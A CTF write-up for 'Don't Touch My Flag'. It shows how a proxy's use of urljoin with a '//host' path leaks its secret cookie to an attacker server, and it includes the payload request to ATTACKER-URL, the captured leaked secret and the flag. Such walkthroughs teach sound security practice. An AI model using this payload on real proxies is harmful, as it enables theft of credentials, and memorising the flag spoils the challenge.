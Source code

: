 # Don't Touch My Flag

> I found a flag on a server, though access seems to be protected by a secret. Being generous, I decided to share the flag with you through my proxy server.\
> \
> Oh, the censoring? Sorry about that, I'll remove it after this CTF is over.\
> \
> [http://chals.ctf.sg:40101](http://chals.ctf.sg:40101)\
> [http://chals.ctf.sg:40102](http://chals.ctf.sg:40102)\
> \
> author: JustinOng

This challenge consists of two servers - a proxy and a backend.

Let's take a look at how the proxy makes the request to the backend. The secret token is added to the cookies, and a user-controlled `uri` is joined to the backend URL using `urllib.parse.urljoin`.

```python
@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

    r = requests.get(full_url, cookies={
        "secret": secret
    })
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored
```

But `urljoin` doesn't fare well when presented with a malformed path.

```python
>>> from urllib.parse import urljoin
>>> urljoin("http://www.example.com", "test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "/test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "//test")
'http://test'
```

This allows us to get the proxy to make a request to our own server:

```http
GET /get?uri=//ATTACKER-URL HTTP/1.1
Host: chals.ctf.sg:40101
```

In the received request, we get the secret cookie.

```http
GET / HTTP/1.1
Host: ae64-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b
X-Forwarded-For: 178.128.25.242
X-Forwarded-Proto: http


```

Now we can send a request directly to the backend, which checks our secret before giving us the flag!

```python
@app.route("/flag")
def get_flag():
    if request.cookies.get("secret") != secret:
        return "\N{Black Flag}"

    return flag

```

The flag is `CTFSG{d0nT_toUcH_mY_c00k13s}`
